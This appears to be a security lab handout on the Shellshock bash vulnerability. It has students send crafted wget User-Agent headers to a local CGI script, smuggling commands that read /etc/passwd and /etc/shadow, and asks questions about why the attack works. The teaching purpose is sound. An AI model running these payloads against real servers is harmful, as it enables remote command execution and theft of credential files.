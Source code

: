 **Question 10** What is the difference between `/etc/passwd` and `/etc/shadow`?

# Part 5: ShellShock Attack #

Now we can try the attack.

- Do the following steps outside the virtual machine.

Using `wget` run:

```bash
wget -O ~/output.txt -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:3080/cgi-bin/test.bash
```

Test it. What do you get in `output.txt`?

**Question 11** Given your knowledge of the vulnerability, explain how the attack works.

Try it again.

```bash
wget -O ~/output.txt -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/shadow" http://localhost:3080/cgi-bin/test.bash
```

**Question 12** Explain why this attack didn't work.

**Question 13** What is the vulnerability in the /etc/passwd attack?

- Try modifying your wget script attack to try other commands. Try to execute, for example `ls -lR /etc` or `ls -lR /home/`.

## How the attack is passed to bash ##

From Wikipedia:

> When a web server uses the Common Gateway Interface (CGI) to handle a document request, it passes various details of the request to a handler program in the environment variable list. For example, the variable HTTP_USER_AGENT has a value that, in normal usage, identifies the program sending the request. If the request handler is a Bash script, or if it executes one for example using the system(3) call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted server request.

> Security documentation for the widely used Apache web server states: "CGI scripts can ... be extremely dangerous if they are not carefully checked."

# Submission #

You will be submitting one file:

- `report.txt` Your answers to the 13 questions
